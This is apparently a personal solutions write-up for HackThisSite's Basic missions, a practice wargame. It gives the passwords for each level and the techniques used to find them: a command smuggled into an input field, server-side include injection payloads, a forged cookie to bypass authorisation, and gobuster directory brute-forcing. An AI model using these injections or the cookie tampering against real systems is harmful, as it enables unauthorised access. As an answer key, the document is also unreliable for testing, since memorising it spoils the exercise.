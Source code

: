 # HACK THIS SITE BASIC MISSIONS

> BLUE COSM0 | 12/14/2003

## RESOURCES
- https://www.hackthissite.org/missions/basic

## BASIC 1
CTRL + U
```
password is d490abb0
```

## BASIC 2
```
no password required
```

## BASIC 3
- "password.php" WAS ATTACHED TO SUBMISSION
- OPEN TO FIND CREDENTIALS
```
137e9d2e
```

## BASIC 4
- SAMS EMAIL "sam@hackthissite.org"
- REPLACE EMAIL WITH YOUR ACCOUNT EMAIL
```
Sam,
Here is the password: 'cb221771'
```

## BASIC 5
REPLACE EMAIL WITH YOUR ACCOUNT EMAIL
```
Sam,
Here is the password: 'a233109a'
```

## BASIC 6
- ENCRPYTED PASSWORD - 0d574;h8
  - ENCRPYTED VIA UNICODE
- USE "basic6.py"
```
0c3406b1
```

## BASIC 7
ENTER: "-y && ls -a"
> OPEN k1kh31b1n55h.php
```
02bdd732
```

## BASIC 8
- SSI INJECTION:
```php
<!--#exec cmd="ls ../" -->
```
OPEN "au12ha39vc.php"
```
fd8f204d
```

## BASIC 9
- SSI INJECTION
```php
<!--#exec cmd="ls ../../9" -->
```
OPEN "p91e283zc3.php"
```
a1bce470
```

## BASIC 10
SET COOKIE WITH JS CONSOLE
```javascript
document.cookie = "level10_authorized=yes"
```
THEN ENTER ANY PASSWORD

## BASIC 11
- ALL SONGS BY ELTON JOHN

RAN: 
```bash
gobuster dir -u 'https://www.hackthissite.org/missions/basic/11' -w base11-wordlist.txt -v -o dirbuster.txt
```
OPEN "dirbuster.txt":
```bash
Found: /e (Status: 301)
Found: /index.php (Status: 200)
```

> NEW PATH: https://www.hackthissite.org/missions/basic/11/e/l/t/o/n/

RAN: 
```bash
gobuster dir -u 'https://www.hackthissite.org/missions/basic/11/e/l/t/o/n' -w /usr/share/wordlists/dirb/common.txt -v -o dirbuster-common.txt
```
OPEN "dirbuster-common.txt":
```bash
Found: /.htaccess (Status: 200)
```

> HTACCESS FILE LED TO "DaAnswer" FILE [https://www.hackthissite.org/missions/basic/11/e/l/t/o/n/DaAnswer]

DaAnswer:
```
The answer is **short**! Just look a little harder.
```
NAVIGATE TO: https://www.hackthissite.org/missions/basic/11/index.php
- "index.php" DISCOVERED IN "dirbuster.txt"
```
short
```

